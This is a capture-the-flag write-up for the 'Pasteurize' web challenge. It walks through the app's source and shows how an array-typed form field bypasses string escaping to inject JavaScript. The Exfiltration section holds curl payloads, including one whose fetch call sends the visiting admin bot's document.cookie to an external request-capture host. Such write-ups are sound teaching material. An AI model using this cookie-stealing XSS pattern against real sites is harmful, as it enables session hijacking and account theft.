




# Pasteurize (Web)

## Introduction

This beginner challenge comes with the following instructions:

> This doesn't look secure. I wouldn't put even the littlest secret in here. My source tells me that third parties might have implanted it with their little treats already. Can you prove me right?

> https://pasteurize.web.ctfcompetition.com/

The URL leads to a paste-sharing web application:




After submitting some input ...




... we are redirected to https://pasteurize.web.ctfcompetition.com/96eaf657-15c6-49f9-9c56-396bdc4fec88:



Note that the `onload`-attribute is sanitized to prevent cross-site scripting attacks.

By submitting an `` tag with a URL we control and clicking on "share with TJMike", we observe that there is a second IP address making a request. Thus, it is clear that the goal of this challenge is to find an XSS attack vector in order to extract the flag from TJMike.


## Observations

The source code reveals how the input is parsed and displayed:
```html
$ curl https://pasteurize.web.ctfcompetition.com/96eaf657-15c6-49f9-9c56-396bdc4fec88
<!DOCTYPE html>
<html>

<head>
    <link href="/static/styles/style.css" rel="stylesheet">
    <link rel="stylesheet" href="/static/styles/bootstrap.css">
    <script src="/static/scripts/dompurify.js"></script>
    <script src="/static/scripts/captcha.js"></script>
</head>

<body>
    
...
  
    <div class=container>
        <div class="container pt-5 w-75">

            <div class=card>
                <div class="card-header">
                    <a id="note-title" class="card-title"></a>
                </div>
                <div class="card-body">
                    <div id="note-content"></div>
                </div>

...

    </div>

    <!-- TODO: Fix b/1337 in /source that could lead to XSS -->
    
    <script>
        const note = "Hello \x3Cimg src=\"http://example.com\" onload=\"alert()\"\x3E";
        const note_id = "96eaf657-15c6-49f9-9c56-396bdc4fec88";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
    </script>

...

</body>

</html>
```


The "TODO: Fix b/1337 in /source that could lead to XSS" comment suggests a potential XSS vulnerability and points to https://pasteurize.web.ctfcompetition.com/source:

```javascript
$ curl https://pasteurize.web.ctfcompetition.com/source
const express = require('express');
const bodyParser = require('body-parser');
const utils = require('./utils');
const Recaptcha = require('express-recaptcha').RecaptchaV3;
const uuidv4 = require('uuid').v4;
const Datastore = require('@google-cloud/datastore').Datastore;

/* Just reCAPTCHA stuff. */
const CAPTCHA_SITE_KEY = process.env.CAPTCHA_SITE_KEY || 'site-key';
const CAPTCHA_SECRET_KEY = process.env.CAPTCHA_SECRET_KEY || 'secret-key';
console.log("Captcha(%s, %s)", CAPTCHA_SECRET_KEY, CAPTCHA_SITE_KEY);
const recaptcha = new Recaptcha(CAPTCHA_SITE_KEY, CAPTCHA_SECRET_KEY, {
  'hl': 'en',
  callback: 'captcha_cb'
});

/* Choo Choo! */
const app = express();
app.set('view engine', 'ejs');
app.set('strict routing', true);
app.use(utils.domains_mw);
app.use('/static', express.static('static', {
  etag: true,
  maxAge: 300 * 1000,
}));

/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));

/* Just a datastore. I would be surprised if it's fragile. */
class Database {
  constructor() {
    this._db = new Datastore({
      namespace: 'littlethings'
    });
  }
  add_note(note_id, content) {
    const note = {
      note_id: note_id,
      owner: 'guest',
      content: content,
      public: 1,
      created: Date.now()
    }
    return this._db.save({
      key: this._db.key(['Note', note_id]),
      data: note,
      excludeFromIndexes: ['content']
    });
  }
  async get_note(note_id) {
    const key = this._db.key(['Note', note_id]);
    let note;
    try {
      note = await this._db.get(key);
    } catch (e) {
      console.error(e);
      return null;
    }
    if (!note || note.length < 1) {
      return null;
    }
    note = note[0];
    if (note === undefined || note.public !== 1) {
      return null;
    }
    return note;
  }
}

const DB = new Database();

/* Who wants a slice? */
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');

/* o/ */
app.get('/', (req, res) => {
  res.render('index');
});

/* \o/ [x] */
app.post('/', async (req, res) => {
  const note = req.body.content;
  if (!note) {
    return res.status(500).send("Nothing to add");
  }
  if (note.length > 2000) {
    res.status(500);
    return res.send("The note is too big");
  }

  const note_id = uuidv4();
  try {
    const result = await DB.add_note(note_id, note);
    if (!result) {
      res.status(500);
      console.error(result);
      return res.send("Something went wrong...");
    }
  } catch (err) {
    res.status(500);
    console.error(err);
    return res.send("Something went wrong...");
  }
  await utils.sleep(500);
  return res.redirect(`/${note_id}`);
});

/* Make sure to properly escape the note! */
app.get('/:id([a-f0-9\-]{36})', recaptcha.middleware.render, utils.cache_mw, async (req, res) => {
  const note_id = req.params.id;
  const note = await DB.get_note(note_id);

  if (note == null) {
    return res.status(404).send("Paste not found or access has been denied.");
  }

  const unsafe_content = note.content;
  const safe_content = escape_string(unsafe_content);

  res.render('note_public', {
    content: safe_content,
    id: note_id,
    captcha: res.recaptcha
  });
});

/* Share your pastes with TJMike🎤 */
app.post('/report/:id([a-f0-9\-]{36})', recaptcha.middleware.verify, (req, res) => {
  const id = req.params.id;

  /* No robots please! */
  if (req.recaptcha.error) {
    console.error(req.recaptcha.error);
    return res.redirect(`/${id}?msg=Something+wrong+with+Captcha+:(`);
  }

  /* Make TJMike visit the paste */
  utils.visit(id, req);

  res.redirect(`/${id}?msg=TJMike🎤+will+appreciate+your+paste+shortly.`);
});

/* This is my source I was telling you about! */
app.get('/source', (req, res) => {
  res.set("Content-type", "text/plain; charset=utf-8");
  res.sendFile(__filename);
});

/* Let it begin! */
const PORT = process.env.PORT || 8080;

app.listen(PORT, () => {
  console.log(`App listening on port ${PORT}`);
  console.log('Press Ctrl+C to quit.');
});

module.exports = app;
```

There are multiple measures in place to stop XSS attacks:
* Angle brackets are converted to "safe" characters
* Paste contents are sanitized with [DOMPurify](https://github.com/cure53/DOMPurify), preventing inline JavaScript code


## Exfiltration

While it is unclear what "Fix b/1337" refers to exactly, the source code reveals an important security flaw:

```javascript
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));

...

const note = req.body.content;
if (!note) {
    return res.status(500).send("Nothing to add");
}
```

The [Express documentation](http://expressjs.com/en/resources/middleware/body-parser.html) explains:
> extended

> The extended option allows to choose between parsing the URL-encoded data with the querystring library (when false) or the qs library (when true). The “extended” syntax allows for rich objects and arrays to be encoded into the URL-encoded format, allowing for a JSON-like experience with URL-encoded. For more information, please see the qs library.

Pastes can be created with this minimal cURL:
```bash
$ curl -X POST -d "content=Hello+world!" https://pasteurize.web.ctfcompetition.com/
Found. Redirecting to /b9324f5c-b4e6-4345-9900-7c9ec4131333
```

Empty pastes are blocked:
```bash
$ curl -X POST -d "content=" https://pasteurize.web.ctfcompetition.com/
Nothing to add
```

After reading up on the [qs](https://www.npmjs.com/package/qs) library, we observe the following behavior:
```html
$ curl -X POST -d "content[]=" https://pasteurize.web.ctfcompetition.com/
Found. Redirecting to /78246dc4-e631-456c-a8e0-eb56f3429330

$ curl https://pasteurize.web.ctfcompetition.com/78246dc4-e631-456c-a8e0-eb56f3429330
...
 <script>
        const note = """";
...
```

This enables our XSS attack vector:
```html
$ curl -X POST -d "content[]=;alert('XSS');" https://pasteurize.web.ctfcompetition.com/
Found. Redirecting to /9b12b762-9440-40e7-8476-bb3606ad27ed

$ curl https://pasteurize.web.ctfcompetition.com/9b12b762-9440-40e7-8476-bb3606ad27ed
...
 <script>
        const note = "";alert('XSS');"";
...
```

After some trial and error, we observe that the cookie is contained in TJMike's cookie. We will use [PTS](https://ptsv2.com/) to extract it. Note that we have to convert "+" to "%2b".
```bash
$ curl -X POST -d "content[]=;fetch('https://ptsv2.com/t/xxxxx-xxxxxxxxxx/post?c='%2bdocument.cookie);" \
    https://pasteurize.web.ctfcompetition.com/
```

After sharing paste with TJMIke, we can finally extract his cookie using PTS:



Flag: `CTF{Express_t0_Tr0ubl3s}`
